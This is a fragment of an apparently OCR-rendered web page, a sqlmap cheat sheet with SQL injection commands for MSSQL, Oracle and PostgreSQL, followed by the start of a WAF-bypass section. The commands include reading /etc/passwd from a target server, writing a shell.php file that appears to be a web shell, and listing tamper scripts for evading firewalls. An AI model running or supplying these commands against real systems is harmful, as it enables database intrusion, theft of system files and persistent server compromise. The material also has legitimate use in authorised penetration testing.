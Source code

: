     # MSSQL crawling
    python sqlmap.py -u "target" --crawl=2
:::
:::

::: feature-card
#### Oracle Features

::: code-block
    # Oracle SID enumeration
    python sqlmap.py -u "target" --banner

    # Tablespace info
    python sqlmap.py -u "target" --schema
:::
:::

::: feature-card
#### PostgreSQL Features

::: code-block
    # Copy from/to files
    python sqlmap.py -u "target" --file-read="/etc/passwd"

    # Large object support
    python sqlmap.py -u "target" --file-write="shell.php"
:::
:::
:::
:::

::: {#evasion-techniques .section .section}
## Evasion Techniques

### WAF Bypass Strategies

::: {.attack-vector .risk-high}
#### Tamper Scripts

::: code-block
    # List available tamper scripts
    python sqlmap.py --list-tampers

